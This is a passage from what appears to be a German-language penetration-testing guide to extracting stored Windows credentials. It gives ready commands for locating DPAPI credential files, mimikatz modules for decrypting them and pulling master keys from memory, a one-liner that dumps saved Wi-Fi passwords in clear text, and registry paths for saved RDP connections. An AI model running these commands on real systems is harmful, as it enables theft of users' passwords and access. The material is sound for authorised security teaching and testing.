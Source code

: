 Die **von dem Master-Passwort geschützten Anmeldeinformationsdateien** befinden sich normalerweise in:
```powershell
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Sie können das **mimikatz-Modul** `dpapi::cred` mit dem entsprechenden `/masterkey` verwenden, um zu entschlüsseln.\
Sie können **viele DPAPI** **Masterkeys** aus dem **Speicher** mit dem `sekurlsa::dpapi`-Modul extrahieren (wenn Sie Root sind).

{% content-ref url="dpapi-extracting-passwords.md" %}
[dpapi-extracting-passwords.md](dpapi-extracting-passwords.md)
{% endcontent-ref %}

### PowerShell-Anmeldeinformationen

**PowerShell-Anmeldeinformationen** werden häufig für **Skripting** und Automatisierungsaufgaben verwendet, um verschlüsselte Anmeldeinformationen bequem zu speichern. Die Anmeldeinformationen sind durch **DPAPI** geschützt, was typischerweise bedeutet, dass sie nur von demselben Benutzer auf demselben Computer entschlüsselt werden können, auf dem sie erstellt wurden.

Um **Anmeldeinformationen** aus der Datei, die sie enthält, zu **entschlüsseln**, können Sie Folgendes tun:
```powershell
PS C:\> $credential = Import-Clixml -Path 'C:\pass.xml'
PS C:\> $credential.GetNetworkCredential().username

john

PS C:\htb> $credential.GetNetworkCredential().password

JustAPWD!
```
### Wifi
```bash
#List saved Wifi using
netsh wlan show profile
#To get the clear-text password use
netsh wlan show profile <SSID> key=clear
#Oneliner to extract all wifi passwords
cls & echo. & for /f "tokens=3,* delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name="%b" key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on*
```
### Gespeicherte RDP-Verbindungen

Sie finden sie unter `HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\`\
und in `HKCU\Software\Microsoft\Terminal Server Client\Servers\`

### Kürzlich ausgeführte Befehle
```
HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
```
### **Remote Desktop Credential Manager**
```
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```
Verwenden Sie das **Mimikatz** `dpapi::rdg` Modul mit dem entsprechenden `/masterkey`, um **alle .rdg-Dateien** zu **entschlüsseln**\
Sie können **viele DPAPI-Masterkeys** aus dem Speicher mit dem Mimikatz `sekurlsa::dpapi` Modul extrahieren.